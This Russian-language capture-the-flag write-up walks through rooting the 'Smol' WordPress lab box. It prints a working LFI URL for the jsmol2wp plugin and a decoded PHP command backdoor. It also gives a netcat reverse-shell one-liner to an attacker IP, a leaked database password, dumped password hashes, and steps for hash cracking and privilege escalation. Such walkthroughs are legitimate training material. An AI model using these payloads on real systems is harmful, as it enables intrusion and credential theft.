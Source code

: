 
![](../attachment/Pasted%20image%2020250225231859.png)
для доступа к сайту добавим target ip и domain в /etc/hosts

Изучив сайт мы видим что это wordpress и запускаем wpscan

![](../attachment/Pasted%20image%2020250225232047.png)

Из интересного видим jsmol2wp и находим CVE-2018-20463, которое дает нам LFI 
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php

![](../attachment/Pasted%20image%2020250225224202.png)
Находим пароля и логин пользователя, заходим в wp-admin и видим приватный пост 

![](../attachment/Pasted%20image%2020250225232310.png)
Читаем  исходный код с помощью найденной LFI и находим упомянутый backdoor
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php

![](./attachment/Pasted%20image%2020250225232424.png)
1. декодирует строку в base64
2. выполняет код с помощью eval
3. выполняет все что передано в cmd
Если мы расшифруем 

```
 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } 
 
 Расшифруем php
<?   
 if (isset($_GET["cmd"])) { system($_GET["cmd"]); }  ?> 
```

Попробуем rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.21.61.35 6653 >/tmp/f

http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.21.61.35%206653%20%3E%2Ftmp%2Ff

![](../attachment/Pasted%20image%2020250225230421.png)
python3 -c 'import pty;pty.spawn("/bin/bash");'

Проверим БД
1. подключаем mysql -u wpuser -p'kbLSF2Vop#lw3rjDZ629*Z%G' -D wordpress
2. Проверяем таблицы show tables;
3. Проверяем колонки в таблице show columns wp_users;
4. запрашиваем пользователей и пароли  select user_login, user_pass from wp_users;
admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. |
| wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. |
| think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ |
| gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 |
| diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 |
| xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1

Сохраняем пользователей и хеши в отдельный файл и запускаем john
![](../attachment/Pasted%20image%2020250225233048.png)

подключение по ssh не удалось, но можем подключиться из существующего шелла.
Получаем первый флаг пользователя
![](../attachment/Pasted%20image%2020250225233246.png)
![](../attachment/Pasted%20image%2020250225233327.png)

diego принадлежит группе internal
![](../attachment/Pasted%20image%2020250225233539.png)
Исследуя папки пользователей находим .ssh у пользователя think, где хранится закрытый ключ

![](../attachment/Pasted%20image%2020250225233626.png)
С помощью ключа подключаемся к пользователю think

![](../attachment/Pasted%20image%2020250225233717.png)
![](../attachment/Pasted%20image%2020250225233731.png)

Исследуя пользователя, находим что он может зайти под gege не используя пароль

![](../attachment/Pasted%20image%2020250225233854.png)
![](../attachment/Pasted%20image%2020250225233911.png)

В папке пользователя находим запароленную старую версию wordpress

![](../attachment/Pasted%20image%2020250225234609.png)

Скачаем архив к себе. 
1. Запустим сервер gege@smol:~$ python3 -m http.server 8080
2. wget http://www.smol.thm:8080/wordpress.old.zip
Получим хеш и расшифруем его 
zip2john wordpress.old.zip > arch_hash.txt
![](../attachment/Pasted%20image%2020250225234758.png)

hashcat -a 0 -m 17225  arch_hash.txt /usr/share/wordlists/rockyou.txt

![](../attachment/Pasted%20image%2020250225235126.png)

Получив пароль и разархивировав старую версию, проверим файл wp-config и получим пароль пользователя xavi

![](../attachment/Pasted%20image%2020250225235228.png)
![](../attachment/Pasted%20image%2020250225235302.png)

пользователь xavi может использовать sudo без пароля
![](../attachment/Pasted%20image%2020250225235745.png)
забираем root флаг
![](../attachment/Pasted%20image%2020250225235847.png)
